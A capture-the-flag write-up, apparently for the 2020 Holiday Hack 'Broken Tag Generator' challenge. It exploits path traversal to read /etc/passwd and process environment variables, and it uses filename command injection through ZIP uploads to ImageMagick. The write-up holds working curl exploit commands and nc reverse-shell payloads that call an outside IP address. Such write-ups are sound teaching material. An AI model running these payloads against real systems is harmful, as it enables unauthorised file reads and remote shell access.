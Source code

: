 # Objective 8: Broken Tag Generator

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

## Solution using Path Traversal

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value the environment variable can be obtained like this:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

## Solution using RCE

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through the above path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../app/lib/app.rb --output app.rb
```
This code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
Furthermore the application starts the `convert` tool from  ImageMagick which makes it possible to inject shell commands:
```
touch joergen.jpg
zip joergen.zip joergen.jpg
printf "@ joergen.jpg\n@=\';nc 93.211.52.129 4444 -e \`which bash\`;#'.jpg\n" | zipnote -w joergen.zip

jsw@io:*$ touch \'\`env\>joergen\`\;\'.jpg
jsw@io:*$ zip joergen.zip \'\`env\>joergen\`\;\'.jpg
  adding: '`env>joergen`;'.jpg (stored 0%)
jsw@io:*$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["7ebc17be-a3ea-48f5-95ea-730e1b006520.jpg"]
jsw@io:*$ sleep 5
jsw@io:*$ curl https://tag-generator.kringlecastle.com/image?id=../tmp/joergen
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
[..]
```

## Full Interactive Remote Shell
Create a file for executing a reverse shell named `t.jpg`:
```
nc <your IP address> 4444 -e /bin/bash
```
Create an executor file:
```
touch \'\`bash\ t.jpg\`\;\'.jpg
```
Create the ZIP file including these two file for upload:
```
zip joergen.zip t.jpg \'\`bash\ t.jpg\`\;\'.jpg
```
Start the reverse shell listener on your local device:
```
nc -lnvp 4444
```
Get it started:
```
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
```
Now you have in the reverse shell listener an interactive shell as user `app`.

```
touch \'\;nc\ 93.211.52.129\ 4444\ -e\ bash\;#\'.jpg
zip joergen.zip \'\;nc\ 93.211.52.129\ 4444\ -e\ bash\;#\'.jpg 
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'


```
<!--stackedit_data:
eyJoaXN0b3J5IjpbMjEwNTc3NjA3NiwtODIzMDUwODYxLDEyOT
M3MjA0MzksMTM5NTc5NDgyNCwtMTU5OTI1NDQxNSwtNjE5Mjk3
NDExLC01NzY2MTAwNzUsMjEwNzUyOTg0Niw5MjIxNDQzNSwtMz
k4NDkxNDYxLDExNTE1NTY4OTYsMjM4NDYwMjcyLDE5MzMzNjE3
ODcsLTE0Njc2MTUyNjIsLTI0Mzk0Mjg2NiwxMzEyMDU2NDUzLD
kyMDQ1NTg2NSwtMTYwNjA3ODA0MF19
-->